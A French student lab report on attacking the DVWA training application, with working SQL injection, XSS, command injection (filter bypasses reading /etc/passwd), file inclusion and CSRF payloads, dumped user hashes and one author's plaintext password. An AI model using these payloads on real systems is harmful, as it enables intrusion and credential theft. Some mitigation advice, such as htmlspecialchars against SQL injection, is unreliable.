

# TP 5 - 6

* Valentin CROCHEMORE
* Yoann FLEURY

## Exercice 1 (Installation)

Installation sans encombre de la machine virtuelle. Accès à l'application web
sans problème.

## Exercice 2 (Injections SQL)

**LOW**
____

### Comment connaitre l'ensemble des utilisateurs ?

Il suffit d'accéder à cet URL : [localhost](localhost/vulnerabilities/sqli/?id='+OR+'1'+%3D'1&Submit=Submit)
Nous avons donc injecté ici du SQL grâce au paramètre `GET id` de l'URL.
Pour s'en protéger, il suffirait de filtrer les paramètres pour changer les
caractères interdit en entités HTML (en utilisant la fonction PHP
`htmlspecialchars()`).

### Comment récupérer la version de MySQL

Pour récupérer la version de MySQL en SQL, il faut lancer la commande

```sql
SELECT @@version
```

donc pour récupérer la version via l'application web il suffit d'injecter le
code suivant :

```sql
' UNION SELECT @@version, ''#
```

et on obtient le résultat suivant :

```
ID: ' UNION SELECT @@version, ''#
First name: 5.7.16-0ubuntu0.16.04.1
Surname:
```

Il faudrait pour s'en protéger filtrer la requête pour changer les caractères
interdits. On pourrait utiliser la fonction PHP `htmlspecialchars()`.

### Comment récupérer le nom de la base de données utilisée ?

Comme pour la question ci-dessus, sauf que cette fois, la requête SQL est la
suivante :

```sql
SELECT DATABASE();
```

et le résultat est :

```
ID: ' UNION SELECT DATABASE(), ''#
First name: dvwa
Surname:
```

Encore une fois, pour se protéger, utilisation d'une méthode permettant de
remplacer les caractères spéciaux.

### Comment récupérer l'utilisateur de la base de données ?

Idem avec la requête `SELECT USER();` et le résultat suivant :

```
ID: ' UNION SELECT USER(), ''#
First name: root@localhost
Surname:
```
Une nouvelle fois, utilisation d'une méthode permettant de remplacer les
caractères spéciaux pour se protéger d'une telle attaque.

### Comment récupérer l'endroit où est stocké la base de données ?

Idem avec la requête `SELECT @@datadir;` et le résultat suivant :

```
ID: ' UNION SELECT @@datadir, ''#
First name: root@localhost
Surname:
```
Une nouvelle fois, utilisation d'une méthode permettant de remplacer les
caractères spéciaux pour se protéger d'une telle attaque.

### Comment connaitre le schema de la base de données ?

```
' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
```

Résultat :

```
ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: user_id

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: first_name

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: last_name

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: user

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: password

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: avatar

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: last_login

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: failed_login

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: CURRENT_CONNECTIONS

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: TOTAL_CONNECTIONS
```

Une nouvelle fois, utilisation d'une méthode permettant de remplacer les
caractères spéciaux pour se protéger d'une telle attaque.

### Comment récupérer les mot de passes des utilisateurs ?

```
' UNION SELECT first_name, password FROM users #
```

Résultat :

```
ID: ' UNION SELECT first_name, password FROM users #
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: ' UNION SELECT first_name, password FROM users #
First name: AMRI
Surname: daffa4d4fb0ed21485b8e7f38ea37bae

ID: ' UNION SELECT first_name, password FROM users #
First name: BOUCHER
Surname: 6db94f074138a64e94f2ce0a2da24ff4

ID: ' UNION SELECT first_name, password FROM users #
First name: GILBERT
Surname: 703d37fe043b504093cd759418249c6d

ID: ' UNION SELECT first_name, password FROM users #
First name: GODIN
Surname: 3c78feb1cf7001094dfdc6ddc6e7ba0e

ID: ' UNION SELECT first_name, password FROM users #
First name: HENRY
Surname: fd95e4963ee4c40457b940138e98a2e3

ID: ' UNION SELECT first_name, password FROM users #
First name: IBRIHEN
Surname: 1ad657bee9775c2e56cb187460bd4eb2

ID: ' UNION SELECT first_name, password FROM users #
First name: LENGAGNE
Surname: 51b33da9146d15ca2d1d8277cdb88d47

ID: ' UNION SELECT first_name, password FROM users #
First name: LOUAIL
Surname: 15cace913d6fabbc669761b29956e394

ID: ' UNION SELECT first_name, password FROM users #
First name: SI ZIANI
Surname: 6f01c5ba27a7c6e4b80e577851163ec0

ID: ' UNION SELECT first_name, password FROM users #
First name: TIGHLIT
Surname: 60037319c191f3309cededa7adf243c3

ID: ' UNION SELECT first_name, password FROM users #
First name: ZEBOUCHI
Surname: 2c0d9a6b72343c36a467c91d471316d5

ID: ' UNION SELECT first_name, password FROM users #
First name: ZIEGLER
Surname: 15cace913d6fabbc669761b29956e394

ID: ' UNION SELECT first_name, password FROM users #
First name: ABOUBACARI
Surname: d2fbaddcf91237982462e1a9a6488ab5

ID: ' UNION SELECT first_name, password FROM users #
First name: HAMDI
Surname: 60c8bd6a097594302cabf8a28fa702c5

ID: ' UNION SELECT first_name, password FROM users #
First name: JMAA
Surname: bf78fbb27954579c1bae64e7c43cce93

ID: ' UNION SELECT first_name, password FROM users #
First name: LECOMTE
Surname: f183b270e7f587956582dfddb842d7c4

ID: ' UNION SELECT first_name, password FROM users #
First name: LENEVEU
Surname: 039190bf7575cc303639e8beacf3130a

ID: ' UNION SELECT first_name, password FROM users #
First name: LEROY
Surname: 6db94f074138a64e94f2ce0a2da24ff4

ID: ' UNION SELECT first_name, password FROM users #
First name: LEVASSEUR
Surname: 7c0466302cce07f088bb193a9eab7ca8

ID: ' UNION SELECT first_name, password FROM users #
First name: M HAMDI
Surname: 35ad7420bb9d0c567cee749cec3cdd1c

ID: ' UNION SELECT first_name, password FROM users #
First name: MELLET
Surname: 362c08f6b2f82cdbc54ffaf8fec22723

ID: ' UNION SELECT first_name, password FROM users #
First name: MRAIHY
Surname: a0154989c697ec9969706725aea52d1c

ID: ' UNION SELECT first_name, password FROM users #
First name: SAID MEDJAHED
Surname: c85d9d10db75a4a397e6325872efa55e

ID: ' UNION SELECT first_name, password FROM users #
First name: SIMEON
Surname: 1ad657bee9775c2e56cb187460bd4eb2

ID: ' UNION SELECT first_name, password FROM users #
First name: ZEROUAL
Surname: 60037319c191f3309cededa7adf243c3

ID: ' UNION SELECT first_name, password FROM users #
First name: HENRY
Surname: 6db94f074138a64e94f2ce0a2da24ff4

ID: ' UNION SELECT first_name, password FROM users #
First name: BERNIERE
Surname: d2fbaddcf91237982462e1a9a6488ab5

ID: ' UNION SELECT first_name, password FROM users #
First name: BLOT
Surname: c86bae7311bdb854d39d819477f172a1

ID: ' UNION SELECT first_name, password FROM users #
First name: BREANT
Surname: 86a78e8fb164990c1c755a6219cadda4

ID: ' UNION SELECT first_name, password FROM users #
First name: BRODIER
Surname: 362c08f6b2f82cdbc54ffaf8fec22723

ID: ' UNION SELECT first_name, password FROM users #
First name: CAPET
Surname: 9517d8e804146d4cf9369508f8590d12

ID: ' UNION SELECT first_name, password FROM users #
First name: COULON
Surname: 73a896f945329aa6bcc032196da98605

ID: ' UNION SELECT first_name, password FROM users #
First name: CROCHEMORE
Surname: d3a8fd6da30995017b9007c91525a4cd

ID: ' UNION SELECT first_name, password FROM users #
First name: DECAMPS
Surname: 8f9b87a25a326121d7bedc91df22f262

ID: ' UNION SELECT first_name, password FROM users #
First name: DESPORTES
Surname: 8f9b87a25a326121d7bedc91df22f262

ID: ' UNION SELECT first_name, password FROM users #
First name: FLEURY
Surname: 31ab78a60e3fc6fb7a38bbaf173e0053

ID: ' UNION SELECT first_name, password FROM users #
First name: KHARKOUK
Surname: b8f8a4696e53e3b5ce5148be5c75c3a7

ID: ' UNION SELECT first_name, password FROM users #
First name: MOCHET
Surname: b8f8a4696e53e3b5ce5148be5c75c3a7

ID: ' UNION SELECT first_name, password FROM users #
First name: QETTE
Surname: 33d6f17128265f4c7b7f540bfa3c464f

ID: ' UNION SELECT first_name, password FROM users #
First name: SAIDI
Surname: c7a14d2ac074d22a0d6e47f059a6d95d

ID: ' UNION SELECT first_name, password FROM users #
First name: YASSINE
Surname: 40d0d9b3baa6532faf35b7ab88c90bea

ID: ' UNION SELECT first_name, password FROM users #
First name: Bob
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

Les mots de passe sont stockés en MD5 qui est une fonction de hashage.
Mon mot de passe est **bonjour92** ce qui donne `31ab78a60e3fc6fb7a38bbaf173e0053`

Une nouvelle fois, utilisation d'une méthode permettant de remplacer les
caractères spéciaux pour se protéger d'une telle attaque.

De plus, il faudrait utiliser le système de hashage B_CRYPT plutôt que MD5 qui
ne vaut plus rien aujourd'hui. B_CRYPT a l'avantage de générer un sel ce qui
permet de fortifier le hashage.

**MEDIUM**
____

Les requêtes se font en POST et les caractères spéciaux sont échappés, mais cela
ne sert à rien. L'application est toujours contournable en modifiant le code
HTML en ajoutant un `input` avec le bon `id` et d'envoyer la requête ainsi.

On est obligé de récupérer les informations deux par deux pour respecter le
nombre de colonne étant donné que le caractère `'` est échapé.

On a donc :

* Pour la version de mysql et le nom de la base de données :
`1 UNION select @@version, database()`
* Pour le nom de l'utilisateur sous lequel tourne la base de données et
l'endroit où est stockée la base de données : `1 UNION select @@datadir, user()`
* Pour récupérer les informations stockées sur les utilisateurs :

```
1 UNION SELECT table_name, column_name FROM information_schema.columns
WHERE table_schema != mysql AND table_schema != information_schema
AND table_name = users
```

* Pour récupérer les noms de tables :

```
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

* Pour récupérer le mot de passe :

```
1 UNION SELECT user_id, password FROM users
```

**HIGH**
____

Le système est le même qu'en **LOW**, mais il faut mettre un commentaire à la 
fin de la requête pour ignorer la limite de données à récupérer.

## Exercice 3 (XSS)

### Montrer comment récupérer les cookies de l'utilisateur avec une XSS :

Il suffit d'insérer le texte suivant dans l'input de la page HTML :

```html
<script>alert(document.cookies);</script>
```

Ce qui donne une boite d'alerte avec le texte suivant :

```
PHPSESSID=q9dir7tgnft0nejuplmarn13h1; security=low
```

### Comment rediriger l'utilisateur ?

```javascript
window.location.assign("http://www.w3c.com")
```

### XSS Stored, insérer une image :

**LOW**
____

Il suffit de retirer l'attribut `maxlength` sur la balise du `textarea` ce
qui permet de mettre la taille que l'on veut dedans. Ensuite, il suffit de
mettre le texte suivant et de l'envoyer :

```html

```

ce qui nous donne un mignon petit Quokka sur notre page :



En faille XSS Stored nos données sont donc sauvegardées en base de données,
alors qu'en **reflected** les données sont directement affichées sur la page.

**MEDIUM**
____

Il suffit de faire la même chose mais dans l'input pour le nom car celui-ci
n'est pas protégé.


**HIGH**
____

On peut passer par les `Events` JavaScript en ajoutant un `listener` sur un
élément HTML que l'on insère dans le `textarea`.

```html
<div onmouseover="alert('test');"
    style="height: 1000px;background-color: red;">
</div>
```

> Quand l'utilisateur passe sa souris sur la `div`, le code JS est éxecuté.
> On peut imaginer une `div` avec du code malveillant à la place d'une simple
> et innofensive `alert`.

## Exercice 4 (Command Injection)

**LOW**
____

### Affichez la liste des fichiers à la racine

Il suffit d'insérer le texte suivant dans l'input de la page et de valider :

```sh
127.0.0.1 && ls /
```

ce qui donne le résultat suivant :

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.022 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.024 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.025 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3003ms
rtt min/avg/max/mdev = 0.015/0.021/0.025/0.006 ms
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

On a donc le ping de localhost suivi de l'affichage de la liste des fichiers à
la racine.

### Faites afficher le contenu du fichier /etc/passwd

On insère `127.0.0.1 && cat /etc/passwd` dans l'input et on a le contenu
suivant :

```
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.014 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.021 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.033 ms
64 bytes from localhost (127.0.0.1): icmp_seq=4 ttl=64 time=0.048 ms

--- localhost ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2998ms
rtt min/avg/max/mdev = 0.014/0.029/0.048/0.012 ms
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:116::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
m2gil-16-17:x:1000:1000:m2gil-16-17,,,:/home/m2gil-16-17:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
etudiant:x:1001:1001:,,,:/home/etudiant:/bin/bash
```

### Faites afficher le contenu du fichier `/etc/shadow`

Impossible, il faudrait que le groupe `www-data` ait les mêmes droits que
`root`.

Pour contrer ces failles, il faudrait utiliser une validation par expressions
régulières pour ne prendre que les IPs.

**MEDIUM**
____

Pour le mode **MEDIUM** le développeur tente de retirer les `;` et les `&&`.
On peut donc contrer cela en insérant `127.0.0.1 &;& cat /etc/passwd`. Le `;`
sera alors retiré et le code sera exécuté.

**HIGH**
____

Les caractères `&&` sont supprimés individuellement, ce qui empêche le moindre
`&`. Ici, on insère `127.0.0.1 |&| cat /etc/passwd` et le code est injecté.

**SOLUTION**
____

Pour tous les cas ci-dessus, il suffit donc de filtrer l'entrée en ne prenant
que les IPs en mettant une expression régulière.

## Exercice 5 (File Inclusion)

**LOW**
____

Un simple include est fait. Le fichier à include est présent dans l'url en le
remplaçant par un chemin vers un autre fichier par exemple :
`file:///home/etudiant/test.php`, ce fichier sera inclu, il suffit alors que
le fichier soit du php et ce dernier sera interprété on peut alors exécuter
du php sur le serveur.

**MEDIUM**
____

Les `../` et `..\` sont enlevés la méthode précédente fonctionne toujours.
Il faut dans ce cas utiliser un chemin absolu et donc non relatif.

**HIGH**
____

Seul les fichiers commançant par `file` sont autorisés, or
`file:///home/etudiant/test.php` commence par file donc cela
fonctionne toujours.

## Exercice 6 (File Upload)

On peut upload n'importe quel fichier comme un fichier PHP par exemple.
Ensuite en allant a l'url où se trouve le fichier que l'on vient d'upload on
peut donc exécuter notre fichier PHP. Cela est dû au fait que la nature du
fichier n'est pas vérifier.

## Exercice 7 (CSRF)

### Expliquer comment forcer un utilisateur à modifier son mot de passe ?

On se fait passer pour un site sûr avec un formulaire qui permet de récolter une
donnée. On la récupère et on l'envoie au serveur tel quel.

On a créé un exemple de page HTML pour cela :

```html
<!DOCTYPE html>
<html>
   <head>
       <meta charset="utf-8">
       <title>Message</title>
   </head>
   <body>
       <form action="http://localhost/vulnerabilities/csrf/"
           method="GET">
           <p>Partage ton pseudo avec nous pour gagner un tas de cadeau !</p>
           <input name="password_new" type="text">
           <input name="password_conf" type="text">
           <input value="Change" name="Change" type="submit">
       </form>
   </body>
</html>
```

Ainsi, si nous sommes malveillant, nous pouvons récupérer le mot de passe via
un script JavaScript et nous pouvons maintenant nous connecter sur l'application
avec les nouveaux identifiants.
